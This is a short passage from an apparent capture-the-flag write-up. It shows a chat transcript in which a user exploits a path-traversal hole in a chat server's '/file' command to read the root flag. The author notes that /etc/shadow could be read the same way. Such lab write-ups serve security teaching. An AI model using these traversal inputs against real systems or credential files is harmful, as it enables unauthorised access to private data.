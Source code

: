 ```
Welcome to the chat. There are no more users
devbot: patrick has joined the chat
patrick: file /root/root.txt CeilingCatStillAThingIn2021?
patrick: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
patrick: /file /root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root.txt does not exist!
patrick: /file /../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] 5db2b41afad7aaa51848fcc4deea352a
```
Well we got rootflag, you could probably do more like getting /etc/shadow or something. But flag is flag!
